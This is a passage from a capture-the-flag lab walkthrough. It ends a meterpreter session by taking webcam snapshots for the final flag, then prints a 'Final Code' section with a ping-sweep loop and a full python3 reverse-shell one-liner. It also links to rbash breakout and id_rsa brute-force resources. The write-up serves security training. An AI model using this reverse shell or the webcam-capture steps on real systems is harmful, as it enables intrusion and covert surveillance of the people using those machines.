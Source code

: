     start /B win_the_war.exe

![](/images/boykin_lab2/98. start.png)

In your msfconsole window you should see a connection and a meterpreter session opened!

![](/images/boykin_lab2/99. meterpreter.png)

Next for the webcam shot. In our meterpreter session we run the following commands to first list the webcams available and then take a screen grab from each one:

    webcam_list

![](/images/boykin_lab2/100. webcam.png)

    webcam_snap -i 1
    webcam_snap -i 2

![](/images/boykin_lab2/101. webcam_snap.png)

webcam_snap -i 2 should be successful, and you have the final flag:

![](/images/boykin_lab2/102. final_flag.png)

As of mid-September 2020, this concludes the lab.  But wait, what happened to 10.136.0.5?  We saw it on our initial ping scan from 10.136.0.2, but never exploited it.  As of this writing, 10.136.0.5 was a salt-minion which could be exploited using the same technique (python3 reverse shell).  However, it was not configured with additional challenges or flags for the lab so I did not show any of the steps or settings on it here in case CaptBoykin decides to use that machine to add to the lab in the future.

<p>&nbsp;</p>
=======================================================

## Final Code

=======================================================

-1- bash script for ping scan:  for i in $(seq 1 254); do (ping -c 1 10.136.0.${i} \| grep "bytes from" &); done;

-2- python3 reverse shell:  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.136.0.2\",17011));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'

<p>&nbsp;</p>
=======================================================

## Links and Additional Reading

=======================================================

1. rbash breakout: [https://www.metahackers.pro/breakout-of-restricted-shell/](https://www.metahackers.pro/breakout-of-restricted-shell/)
2. VNC through SSH: [https://www.systutorials.com/how-to-remote-control-linux-server-using-vnc-through-ssh-tunnel/](https://www.systutorials.com/how-to-remote-control-linux-server-using-vnc-through-ssh-tunnel/)
3. SaltStack: [https://docs.saltstack.com/en/getstarted/system/communication.html](https://docs.saltstack.com/en/getstarted/system/communication.html)
4. id_rsa brute force: [https://github.com/readonlymaio/mm_id_rsa_bruteforce](https://github.com/readonlymaio/mm_id_rsa_bruteforce)
5. tcpdump tutorial: [https://www.linuxtechi.com/capture-analyze-packets-tcpdump-command-linux/](https://www.linuxtechi.com/capture-analyze-packets-tcpdump-command-linux/)
